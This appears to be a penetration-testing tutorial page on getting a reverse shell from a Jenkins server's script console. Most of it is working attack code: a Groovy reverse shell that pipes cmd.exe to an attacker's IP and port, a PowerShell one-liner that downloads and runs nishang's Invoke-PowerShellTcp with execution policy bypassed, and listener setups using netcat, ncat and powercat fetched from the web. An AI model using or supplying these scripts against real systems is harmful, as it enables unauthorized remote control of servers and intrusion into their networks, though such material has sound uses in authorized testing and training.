




Reverse Shell
1. We can create a reverse shell by executing a Groovy script like this:
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
In the Console Script of Jenkins(http://<jenkins_server>:8080/script)
◇ Command line
String host="<IpAddressAttacker>";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
◇ Powershell
We need to follow the procedure already discussed
HERE.
We need to use a script like 'Invoke-PowerShellTcp.ps1', otherwise if we change only “cmd.exe” with
“Powershell.exe” the shell will not be fully interactive, in other words we cannot execute commands.
Execute
this script(change the ip address with the address of you attacking machine).
def sout = new StringBuffer(), serr = new StringBuffer()
String cmd = "[Net.ServicePointManager]::SecurityProtocol = 'tls12, tls11, tls, Ssl3';iex(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IpAddress 192.168.1.118 -Port 4444"
String ps = 'powershell.exe -nop -exec bypass -c "' + cmd + '"'
def proc = ps.execute()
proc.consumeProcessOutput(sout, serr)
println "out> $sout err> $serr"
*At the start of cmd string we have added “
[Net.ServicePointManager]::SecurityProtocol = 'tls12, tls11, tls, Ssl3';” to
ensure that this script work also on older versions of Windows, where TLS2 for HTTPS requests was not a default
settings.
2. While the Attacker machine should be listening for a connection of the Jenkins server
◇
Linux Attacker machine:
root@kali:/# nc -lvp 4444
 ◇
Windows Attacker machine:
▪ use netcat(can listen for both a
powershell and a cmd shell):
PS> (new-object System.Net.WebClient).DownloadFile("http://nmap.org/dist/ncat-portable-5.59BETA1.zip", "$env:userprofile\desktop\file.zip");$ZippedFilePath = "$env:userprofile\desktop\file.zip";$DestinationFolder = "$env:userprofile\desktop\";[void] (New-Item -Path $DestinationFolder -ItemType Directory -Force);$Shell = new-object -com Shell.Application;$Shell.Namespace($DestinationFolder).copyhere($Shell.NameSpace($ZippedFilePath).Items(),4);Invoke-Expression "$env:userprofile\desktop\ncat-portable-5.59BETA1\ncat.exe -vnl 4444";
PS> Remove-Item -Path "$env:userprofile\desktop\ncat-portable-5.59BETA1";Remove-Item -Path "$env:userprofile\desktop\file.zip";
 ▪ use powercat(listening
for a powershell shell):
PS> IEX(New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1")
PS> powercat -l -v -p 4444 -t 1000
3. Now we can
execute the Groovy script from the Jenkins server and gain a shell on our attacker machine
